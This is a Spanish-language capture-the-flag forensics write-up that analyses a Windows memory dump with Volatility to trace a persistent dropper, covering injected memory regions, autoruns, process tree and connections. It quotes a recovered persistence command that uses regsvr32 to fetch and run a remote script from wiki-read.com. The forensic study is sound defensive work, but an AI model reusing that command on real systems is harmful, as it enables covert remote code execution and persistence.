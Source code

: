 ```yaml
---
title: Reto DFIR 2 - Atenea CCN
date: 2025-01-15 19:12:49 +0100
categories: [Labs & CTF, Write Up, DFIR]
tags: [dfir, forensics, malware analysis, memory analysis, volatility]
---
```


## Recursos

[Enlace del fichero usado (Google Drive)](https://drive.google.com/file/d/1OgjS9MtPklkL-jeiZcoj9SLAs8mFcl41/view?usp=sharing)

## Contexto

### Información

Sospechamos que el volcado de memoria adjunto se corresponde con una máquina que ha
sido infectada de forma persistente por algún tipo de malware, posiblemente un dropper.
Nos gustaría identificar el dominio dañino utilizado por el mismo.

## Análisis de procesos

![Listado de procesos](/assets/img/posts/atenea_dfir_2/20250115_191249_2025-01-15_20-12.png)
_Aquí podemos ver algunos procesos interesantes y algunas anomalías que iremos viendo más adelante_

### Identificando posibles inyecciones en los comandos

En volatility disponemos de un módulo para intentar detectar inyecciónes o comportamientos anómalos en los procesos de windows.

![Análisis de anomalías](/assets/img/posts/atenea_dfir_2/20250115_192639_Peek_2025-01-15_20-26.gif)
_Podemos ver que encuentra posibles anomalías en los dos prodesos de Internet Explorer y en csrss_

### Análisis

En el proceso csrss.exe (PID 592):

-> Tiene una región de memoria con permisos PAGE_EXECUTE_READWRITE (que es sospechoso para csrss.exe)

-> Contiene código ensamblador que parece shellcode, con instrucciones como OUT y STD que son inusuales en código legítimo

En dos procesos de IEXPLORE.EXE (PIDs 1624 y 3728):

-> Ambos tienen regiones idénticas en la dirección 0x5fff0000
-> También con permisos PAGE_EXECUTE_READWRITE
-> Contienen la firma "dtrR" seguida de un patrón de bytes similar
-> El código ensamblador incluye un CALL FAR que podría ser usado para ejecución de código malicioso

## Análisis de autoruns

### Plugin autorun

[Github](https://github.com/Telindus-CSIRT/volatility3-autoruns/blob/main/autorun.py)

Una vez importado este plugin nos permite ver que ejecutables están configurados para ejecutarse al inicio del sistema lo que es normal en la forma de generar persistencia en un malware.

![Análisis de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193253_2025-01-15_20-32.png

### Análisis

La entrada más sospechosa es 

regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll

Este comando en el autoruns es muy sospechoso porque:

-> Usa regsvr32 para desregistrar (/u) scrobj.dll
-> Intenta cargar un script desde una URL externa (http://wiki-read.com/info.txt)
-> Se ejecuta silenciosamente (/s)
-> Está configurado para ejecutarse automáticamente al inicio del sistema

![Análisis adicional de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193539_2025-01-15_20-35.png)

regsvr32 /s /n /i:U shell32

Este comando aparece dos veces como "_nltide_2" en RunOnce para diferentes usuarios.

Hasta ahora el posible vector inicial de infección parece ser la descarga y ejecución del script malicioso desde wiki-read.com mediante regsvr32, que es una técnica conocida de "Living off the Land" para evadir defensas.

### Correlación

Esto encaja con el hallazgo anterior:

-> El script malicioso probablemente fue descargado a través de Internet Explorer

-> Inyectó código en csrss.exe (un proceso crítico del sistema)

-> Los dos procesos de IE con la misma firma indican que el malware se replicó

## Relación con los procesos

![Árbol de procesos](/assets/img/posts/atenea_dfir_2/20250115_194308_2025-01-15_20-43.png)

### Relación

Los procesos de Internet Explorer sospechosos (PIDs 1624 y 3728) son hijos de explorer.exe (PID 1868)

-> Esto es normal ya que IE se suele lanzar desde el explorador
-> Pero recordemos que ambos tienen la misma región de memoria maliciosa

Hay varios shells de cmd.exe abiertos (PIDs 3468, 300, 1080) también como hijos de explorer.exe

-> Esto podría indicar actividad de comando y control
-> Especialmente sospechoso tener múltiples shells abiertos

Hay dos instancias de explorer.exe (PIDs 1868 y 1608)

-> Una es hija de winlogon.exe (normal)
-> La otra (PID 1608) parece huérfana (su padre PID 1552 no existe)
-> Esta segunda instancia podría ser una persistencia del malware

El proceso regedit.exe (PID 2664) podría indicar modificaciones al registro

-> Esto coincide con las entradas de autoruns que encontramos antes

### Línea temporal

La línea temporal sugiere:

- 23:47: Se inicia el primer IE sospechoso (PID 1624)
- 23:49: Se modifican las entradas de autoruns (según el output anterior)
- 23:52: Se inicia el segundo IE sospechoso (PID 3728)

## Análisis de conexiónes

![Análisis de conexiones](/assets/img/posts/atenea_dfir_2/20250115_195117_2025-01-15_20-50.png)

### Análisis

Los procesos de IE sospechosos tienen actividad de red:

-> PID 1624 usando UDP puerto 1031 en 127.0.0.1
-> PID 3728 usando UDP puerto 1035 en 127.0.0.1
-> Ambos procesos usan conexiones UDP locales, lo que es inusual para IE

Cronología interesante:

-> 23:47:13: Primera conexión del IE sospechoso (PID 1624)
-> 23:52:15: Segunda conexión del IE sospechoso (PID 3728)
-> Coincide con la timeline que vimos en el pstree

La comunicación UDP en localhost entre los procesos de IE es especialmente sospechosa y podría indicar:

- Comunicación entre componentes del malware
- Túnel C2 (Command & Control)
- Evasión de firewalls

## Análisis de URLs en memoria

### Datos del proceso 1624

Dado el timeline que hemos visto:

-> PID 1624 (primer IE) se inició a las 23:47:12
-> Las modificaciones del registro ocurrieron a las 23:49
-> PID 3728 (segundo IE) se inició después a las 23:52:15

El PID 1624 parece ser la infección inicial que desencadenó todo, así que es el mejor candidato para buscar la URL maliciosa.

![Volcado de memoria del proceso](/assets/img/posts/atenea_dfir_2/20250115_195422_2025-01-15_20-54.png)
_Lo volcamos en un txt por si es mucho contenido_

![Análisis de URLs en memoria](/assets/img/posts/atenea_dfir_2/20250115_200501_2025-01-15_21-04.png)